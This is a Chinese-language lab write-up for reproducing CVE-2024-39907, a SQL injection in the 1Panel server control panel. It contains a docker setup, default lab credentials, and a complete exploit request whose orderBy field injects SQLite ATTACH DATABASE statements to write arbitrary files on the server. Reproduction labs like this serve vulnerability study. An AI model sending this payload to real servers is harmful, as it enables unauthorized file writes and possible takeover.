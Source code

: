 # 1Panel控制面板SQL注入漏洞 (CVE-2024-39907)

1Panel是一款基于Web的Linux服务器管理控制面板，提供服务器管理的图形化界面。

CVE-2024-39907是1Panel控制面板中存在的多个SQL注入漏洞集合，这些漏洞存在于1Panel的多个接口中，部分注入点由于过滤不善，可能导致攻击者实现任意文件写入，最终达成远程命令执行(RCE)。该漏洞影响1Panel v1.10.9-lts及更早版本，已在v1.10.12-lts版本中得到修复。

References:

- <https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-39907.yaml>
- <https://github.com/1Panel-dev/1Panel/security/advisories/GHSA-5grx-v727-qmq6>
- <https://hub.docker.com/r/moelin/1panel>

## 环境搭建

执行如下命令启动一个有漏洞的1Panel v1.10.10-lts：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:10086/entrance`，使用以下默认凭据登录：

- 端口：`10086`
- 用户名：`1panel`
- 密码：`1panel_password`
- 入口路径：`entrance`

## 漏洞复现

登录1Panel控制面板后，漏洞存在于`/api/v1/hosts/command/search`接口中，`orderBy`参数缺乏适当的输入验证，导致SQL注入攻击。

发送以下恶意POST请求来利用该漏洞：

```
POST /api/v1/hosts/command/search HTTP/1.1
Host: your-ip:10086
Accept-Language: zh
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Cookie: psession=your-session-cookie
Connection: close
Content-Type: application/json
Content-Length: 83

{
  "page":1,
  "pageSize":10,
  "groupID":0,
  "orderBy":"3;ATTACH DATABASE '/tmp/randstr.txt' AS test;create TABLE test.exp (data text);create TABLE test.exp (data text);drop table test.exp;",
  "order":"ascending",
  "name":"a"
}
```

`orderBy`参数中的恶意负载利用SQLite的ATTACH DATABASE功能在服务器文件系统上创建任意文件，演示了成功的SQL注入攻击。处理请求时，1Panel后端会执行注入的SQL命令而不进行验证，确认漏洞存在且可被利用。

![1](1.png)

这些数据库操作命令的成功执行证明SQL注入漏洞可以被利用来实现潜在的远程代码执行。
